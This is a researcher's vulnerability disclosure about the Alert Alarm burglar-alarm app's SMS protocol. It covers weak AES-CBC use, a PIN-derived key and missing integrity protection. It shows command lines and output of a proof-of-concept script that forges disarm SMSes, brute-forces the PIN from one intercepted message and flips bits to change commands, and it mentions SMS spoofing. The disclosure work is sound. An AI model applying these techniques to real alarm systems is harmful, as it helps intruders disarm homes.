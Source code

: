 Alert Alarm SMS exploit - English version
#########################################

For Swedish translation of the article please go `here
<alert-alarm-exploit-se.html>`_.

tl;dr;
******
For less tech savvy people or people just bored about all the details, this
tl;dr; and the `summary`_ section at the end should be enough to read to get an
understanding of the issues.

- As of today, 2020-01-02, the issues presented here still haven't been fixed
  even though initial report date was July 3rd 2019.

- `Alert Alarm`_ is a Swedish company selling burglar alarms (with various
  possibilities for extensions) to home owners. At one of their pages [1_],
  they are saying that: "Our burglar alarms for home owners communicate using
  an encrypted channel primarily using GSM and secondarily using SMS".
  Apparently there is also some collaboration with `Verisure`_ since the people
  that I've been in contact with after reporting the issue to Alert Alarm are
  coming from Verisure.

- It all started out one morning in June 2019 when I noticed that when turning
  of the alarm from the App, a SMS was generated where the content was a long
  (hex-)string with random characters. After doing some reverse engineering I
  found out that Alert Alarm have multiple weaknesses in their SMS
  implementation that are used when turning on/off alarms from their Alert Alarm
  app (tested on Android). The weaknesses can be summaries in:

  - Crypto algorithm in use is plain AES-CBC which is `malleable`_.
  - No integrity protection of the encrypted messages.
  - Heavily reduced key space, from 128-bits to 9999 keys.
  - Doesn't use any device unique values/properties in the data being sent to
    the Alert Alarm server.
  - No key derivation function in use (KDF).
  - No key exchange protocol in use (like Diffie Hellman for example).

- This makes the security of the implementation very fragile, since all it
  takes for a rouge user is to get hold of a **single** SMS generated by the
  Alert Alarm app to be able to gain access to someones house. I.e., when the
  attacker got that he can easily figure out the code used to turn on/off the
  burglar alarm. Using free services one can send `spoofed SMS`_ with manually
  crafted data and then it's just to enter the victims house and no alarm will
  go off. Alternatively a thief can break into the house and just simply enter
  the code to turn off the alarm as the homeowner would do.

- On this page, one can find examples and a script that can decrypt Alert Alarm
  SMSes and also create valid Alert Alarm SMSes. The script is also capable of
  finding a key using a brute force attack and it's also possible to flip bits
  to change the original intention of the SMS.

|

Observation
***********
As mentioned, this caught my attention when I noticed that when turning off an
active alarm (``ARMED_HOME``) using the Android app, a SMS is created similar to
this (had to blur parts of it, otherwise anyone could figure out my own code by
just running the scripts presented here).

.. figure:: images/alert/aa_initial_sms.png
    :figclass: align-center
    :alt: SMS image

After spending the rest of the morning reverse engineering the app I could see
that the 64 bytes hex string is made up of two parts. The first part is the IV,
which is a random number (coming from ``SHA1PRNG``) and the second part is the
actual message.

.. code-block:: none

           32 bytes   32 bytes
        +-----------+----------+
        | IV        | Message  |
        +-----------+----------+

It uses a 128-bit key, however the key used for encryption are made up of
strings like this:

.. code-block:: none

        000000000000xxxx

Where "xxxx" is the pin code that is used to turn on and off the burglar alarm.
This means the key space is heavily reduced from 128-bits, to only 9999
combinations instead of 340282366920938463463374607431768211455 combinations as
it would have been if they had used a proper key!

The message it self is encrypted using plain `AES-CBC`_, so no integrity
protection or anything. What that means is that although the SMS is encrypted
anyone can still modify it without the receiver noticing that. I'll talk more
about that further down in the examples about flipping bits (see the section:
"Flip a bit in the encrypted message").

|

Message format
==============
The format of the decrypted message is as follows:

.. code-block:: none

        Bytes:            1   1   1      2       1     2        2        2         2          2   = 16 bytes
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                |SMS Version| i | j | year | month-1 | day | hour | minute | user id | \x00\x00 |
                +-----------+---+---+------+---------+-----+------+--------+---------+----------+
                                              (hex)

Here "``i``" seems to represent the "`alarm off (0)`" and "`alarm on (1)`" and
"``j``" is probably whether it is "`armed home`" or "`armed away`".

|

Script
******
On my GitHub page, you'll find a Python script (`aaxploit.py`_) that I wrote as
a proof of concept script. With that script you can generate valid Alert Alarm
SMSes, brute force SMS to get the code to the burglar alarm and a couple of other
things that I'll go more into detail separately below. Calling the script with
no arguments lists all possible parameters. But to make it easier to follow
along, we've put together a couple of examples below.

|

Generate a SMS from scratch
===========================
This creates a valid SMS message (hex string), i.e, a real usable string that
can be sent as an SMS and that will either turn on or turn off the alarm. "-p"
here is the code that you want to use. If you own an Alert Alarm system, then
you can try this, put your own and known code after "-p" and use either "--on"
or "--off" to arm or disarm the alarm. Then take the crafted SMS and send it as
an SMS to +467190009972713.

.. code-block:: bash

        $ ./aaxploit.py -e -p 1234
        [INFO]: Msg:              32303131393630333038343830310000
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: encryption
        [INFO]: Crafted SMS:      d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b

|

.. _decrypt_sms:

Decrypt a SMS from the phone
============================
As an example, take the crafted SMS from the example above (having that said,
copy a SMS string from a phone, generated by the Alert Alarm app works just as
well). In this example we already know the pin code to turn on/off the alarm,
so we provide that as a parameter.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -d -p 1234
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: decryption
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   0   1     19     0x6    03     08       48        01

|

Brute force an encrypted SMS
============================
Here we pretend that we **don't** know the key (i.e., the pin code to turn
on/off the alarm), but we somehow have gotten hold of the encrypted SMS. By
running the brute force attack we try to find the correct key and pin to turn
on/off the alarm. Due to the nature of how the message is encoded, this always
seems to work and since the key space is very small, it finds the key/pin in
less than a second.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -b
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              None (0000000000000000)

        [INFO]: Mode: bruteforce
        [INFO]: (Probably) found the correct ...
        [INFO]:    encryption key: 30303030303030303030303031323334
        [INFO]:    pin:            1234

As we can see, we found the correct key/pin code! Note that the pin code is the
same as used on the real physical burglar alarm at the alarm owners house. I.e.,
if a thief breaks in, he can enter this pin code and the alarm never goes off.

.. _flip_bits:

|

Flip a bit in the encrypted message
===================================
Since AES-CBC is malleable_, we can flip a bit in the IV which will be directly
reflected on the decrypted message. I.e., a man in the middle can use this to
either change a message from "Turn on alarm" to a "Turn off alarm" or vice
versa. Notice that here one doesn't even have to decrypt the message, i.e, by
just taking the original message and flip a bit and use the modified SMS is
enough to turn off (or turn on) the alarm. In the example below we flip the
meaning of the "``i``" bit.

.. code-block:: bash

        $ ./aaxploit.py --input d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b --flip 112 
        [INFO]: Original SMS:     d244e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d244e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              None (0000000000000000)

        [INFO]: Mode: flip bits
        [INFO]: Modified IV:      d245e98aed6f2dfbf991485e5e43cd56
        [INFO]: Modified SMS:     d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b


If we take the "Modified SMS" and decrypt it, we can see that the "i" field has
been changed (from "0" to "1", compare with message above, see the section
"Decrypt a SMS from the phone").

.. code-block:: bash

        $ ./aaxploit.py --input d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b -d -p 1234
        [INFO]: Original SMS:     d245e98aed6f2dfbf991485e5e43cd56ee184c8e49d04a468eabd14aee04079b
        [INFO]: Msg:              ee184c8e49d04a468eabd14aee04079b
        [INFO]: IV:               d245e98aed6f2dfbf991485e5e43cd56
        [INFO]: Key:              30303030303030303030303031323334 (0000000000001234)

        [INFO]: Mode: decryption
        [INFO]: | sms_v | i | j | year | month | day | hour | minute | user_id |
        [INFO]:       2   1   1     19     0x6    03     08       48        01
                          /\
                          |----- changed from 0 to 1

Note that bit-flipping can be done to anything in the data, i.e., it would
probably work to trick the system by taking an old valid SMS created by the
Alert Alarm app and then just flip the date and/or hour bits and resend the
modified SMS.

|

Other attacks?
**************
- Is the Alert Alarm solution susceptible to `replay attacks`_? Is is possible
  to send the same message more than once?

  - No it's not, sending the same SMS twice makes the main control unit say
    "Fjärrkontroll, felkod 2". Also by adding for example +1 to minute still
    doesn't work. So, probably Alert Alarm on the server side are checking
    either a hash of all messages coming in and/or simply just check that the
    data in the SMS isn't too old.

- Will the Alert Alarm server detect brute force attacks. I.e., can one send
  9999 SMS in a short amount of time and thereby gain access to someones house?

  - I haven't got this confirmed, but it's certainly something one easily could
    try.

|

Open questions
**************
Why did Alert Alarm decide to use SMS from the app, when there already must be a
data connection with the app? This means that it probably works something like
this.

- The SMS is sent to the server.
- The server decrypts the SMS, checks the parameters, record the action
  and send out a request (using the data connection over GSM) to the home
  owners main unit controlling the alarm.
- When the alarm has been armed/disarmed, the Android app gets a
  notification of the updated status.

Why on earth use SMS at all? Doesn't all mobile phone / users have a data
connection in 2019?

|

.. summary_:

Contact with Alert Alarm / Verisure
***********************************
- **July 3rd 2019**: I'm reporting to the support page that I want to disclose a
  security issue.

- **July 9th 2019**: Using a private Facebook message to Alert Alarm I once
  again try to say that I have a security issue that I want to report.

- **July 10th 2019**:

  - Alert Alarm responds at Facebook that they've sent my contact details to the
    people developing the app.

  - Verisure's Information Security Manager try to contact me using first phone
    and then email.

  - I send over the report (basically this blog post) together with proof of
    concept scripts.

- **Augusti 12th 2019**: Phone meeting with Verisure, I get a status update and
  Verisure mentions that they need more time than standard 90-day disclosure
  time, something that I'm fine with.

- **October 2nd 2019**: I reach out to Verisure asking for an update. Message is that
  they are still working on a solution, testing "something" that should work and
  that they soon will let me know more about it. I also ask about CVE number and
  when we can go public with this. No answer to that.

- **November 4th 2019**: I reach out once again asking for an update.

- **November 7th 2019**: Verisure replies with more or less the same message as
  October 2nd. Again promises to get back to me soon.

- **2:nd January 2020**: I'm cleaning up the write-up and publish all this. The
  reason for doing it today is because today it's half a year ago since I
  initially reported the issues to Alert Alarm. If they would have been serious
  about this, it should all have been fixed by now and they should have
  reconnected better with me.

|

Summary
*******
The security of the solution relies on

1. the pin code and

2. the SMS senders phone number and

3. that no-one is able to get hold of the SMS sent.

In fact, one can argue that **the security only relies on "3"**, since if one
gets hold of "3", then it's trivial to figure out "1", that is basically what
the script `aaxploit.py`_ does. "2" on the other hand is typically available
in phone books etc, i.e., it's usually not hard to figure out the phone numbers
to the owner of a house.

Alert Alarm seems to have tried to "lock" the SMS service to a set of users.
i.e., the first user have to add additional phone numbers before these people
can use the app. So at first glance, one might believe that it's only the
owners of these phone numbers who can send the SMS. But the fact is that there
are many services out there that allow you to send `spoofed SMS`_ so it looks
like they were sent from a certain phone number. I.e., it's totally possible to
craft a SMS using `aaxploit.py`_ and then use one of these services to send a
rouge SMS. I.e., any user can turn off the alarm without the alarm owner knowing
about it.

**Should the owners of this alarm be worried?** Getting an SMS from the home
owner is probably a bit challenging, so it's probably a bit hard to actually do
the attack (don't leave your phone unattended!). On the other hand if Alert
Alarm **doesn't** notice brute force attacks on the receiving side of the SMS,
then it's fairly easy to put this attack into practice.

No matter, the flaws identified are quite severe and gives an attacker several
ways to attack the system. Attacks that shouldn't be possible to do that easy on
a system meant to protect our homes. Me and the other customers of Alert Alarm
don't want our burglar alarms to have these kind of weaknesses. Right now it's
more `Security by Obscurity`_ than real security.

|

About me
********
I'm Joakim Bech, a guy who has been working with Security on embedded devices
for the last 12 years. I did the work above on my spare time, but otherwise I
head the security team at a company called Linaro_ where I've been working for
a little bit more than 6 years.

.. _1: https://www.alertalarm.se/hemlarm/garanti-och-funktion.html#1
.. _AES-CBC: https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Block_Chaining_(CBC)
.. _Alert Alarm: https://www.alertalarm.se
.. _aaxploit.py: https://github.com/Jyx/alert_alarm_xploit/blob/master/aaxploit.py
.. _IV: https://en.wikipedia.org/wiki/Initialization_vector
.. _malleable: https://en.wikipedia.org/wiki/Malleability_(cryptography)
.. _Linaro: https://www.linaro.org/
.. _replay attacks: https://en.wikipedia.org/wiki/Replay_attack
.. _Security by Obscurity: https://en.wikipedia.org/wiki/Security_through_obscurity
.. _spoofed sms: https://www.google.com/search?q=send+spoofed+sms&oq=send+spoofed+sms
.. _Verisure: https://www.verisure.se/
